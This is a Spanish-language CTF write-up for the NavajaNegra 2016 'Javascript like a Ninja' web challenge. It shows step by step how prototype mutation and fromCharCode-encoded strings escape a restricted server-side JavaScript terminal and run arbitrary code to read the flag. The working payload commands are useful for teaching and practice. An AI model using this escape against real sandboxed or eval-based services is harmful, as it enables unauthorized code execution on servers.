




# NavajaNegra 2016 – Web 2 – Javascript like a Ninja

Una vez superada la primera prueba, deberíamos haber obtenido las credenciales del administrador MojoJojo.

Así que el primer paso es ‘encontrar’ el panel de login y acceder: http://challenges.ka0labs.org:31337/login



Una vez dentro nos encontramos con un terminal llamado *MoJS* en el que podemos escribir instrucciones, al parecer en lenguaje *JavaScript*.



Si revisamos el código fuente de la página, podemos encontrar un comentario con información de como utilizar el terminal.

```
Notes:
Ok, with all that languages out there I sometimes forget my own =_=’
Types: only integers to count
Operations: addition with ‘+’
Auxiliar functions: ‘help’
Assign to ‘result’ to see output
```

Con esta información ya deberíamos poder utilizar correctamente la terminal.
Probamos con `result=help;` y obtenemos en pantalla la función help


```
"function () { return execute.toString(); }"
```

Si la ejecutamos con `result=help(0);` obtenemos el código de la función *execute*, que es la parte servidor, encargada de recibir las instrucciones que escribimos en el terminal.



Una vez asimilado el código, vemos como las variables que escribimos en el terminal se guardan en el Objeto *scope[sessId]*, también tenemos la restricción de no poder utilizar comillas y generar una cadena de texto o utilizar el carácter punto para lanzar un método.

Una de las pistas nos recomienda utilizar prototypes y mutar el objeto, `Javascript objects have prototypes. Mutate the scope.`

Tras innumerables pruebas, se consigue mutar a diferentes tipos, si mutamos a *Function* podemos utilizar constructor para crear una función propia.

```
MoJS> __proto__=help;
MoJS> result=constructor;
"function Function() { [native code] }"
MoJS> result=constructor(123456);
"function anonymous() {\n123456\n}"
```

Incluso somos capaces de ejecutar la función, aunque de momento es una función que no devuelve nada.

```
MoJS> result=constructor(123456)(0);
"undefined"
```

Nuestro siguiente objetivo es generar un *String* definido por nosotros para incluirlo en una función y poder ejecutar código.

Para ello mutamos a *String* utilizando la siguiente instrucción, es importante no haber mutado antes a *Function* para que funcione.

```
MoJS> __proto__=constructor(help(0));
"undefined"
MoJS> result=constructor;
"function String() { [native code] }"
```

Por ultimo, mutamos a la clase *String*, donde tendremos acceso a la ansiada función *fromCharCode*.

```
MoJS> result=constructor;
"function Function() { [native code] }"
MoJS> result=fromCharCode;
"function fromCharCode() { [native code] }"
```

Ahora solo nos falta codificar la instrucción JavaScript que queramos ejecutar en el servidor.

Para ello necesitamos convertir nuestra instrucción a una secuencia de valores decimales y concatenarlos después de utilizar *fromCharCode* en cada uno de ellos. Por último, utilizamos `constructor(instruccion)(0);` para crear la función y ejecutarla.

```javascript
return Object.keys(this);

114,101,116,117,114,110,32,79,98,106,101,99,116,46,107,101,121,115,40,116,104,105,115,41,59

result=constructor(fromCharCode(114)+fromCharCode(101)+fromCharCode(116)+fromCharCode(117)+fromCharCode(114)+fromCharCode(110)+fromCharCode(32)+fromCharCode(79)+fromCharCode(98)+fromCharCode(106)+fromCharCode(101)+fromCharCode(99)+fromCharCode(116)+fromCharCode(46)+fromCharCode(107)+fromCharCode(101)+fromCharCode(121)+fromCharCode(115)+fromCharCode(40)+fromCharCode(116)+fromCharCode(104)+fromCharCode(105)+fromCharCode(115)+fromCharCode(41)+fromCharCode(59))(0);

"execute,scope,fl4g"
```

Finalmente repetimos el paso anterior y codificamos la instrucción *return fl4g;* para obtener el flag.

```javascript
return fl4g;
```

Aquí vemos la tres instrucciones necesarias para resolver la prueba


